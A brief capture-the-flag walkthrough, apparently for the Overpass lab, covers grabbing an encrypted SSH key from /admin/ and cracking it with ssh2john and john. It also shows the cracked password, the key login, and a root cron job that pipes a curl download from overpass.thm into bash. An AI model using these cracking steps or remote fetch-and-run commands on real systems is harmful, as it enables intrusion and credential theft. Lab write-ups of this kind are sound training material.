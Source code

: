# Fairy easy to get the encrypted private key here
/admin/

# Crack it with john
```
$/usr/share/john/ssh2john.py encryptedKey > hash
john --format=ssh hash
```

# Now we get the password for using the key
james13

# Give chmod +x try login
ssh -i encryptedKey james@$ip

# wow, complain the permission too open
chmod 600 encryptedKey

# Login success
### cron is your friend
```
root curl overpass.thm/downloads/src/buildscript.sh | bash
```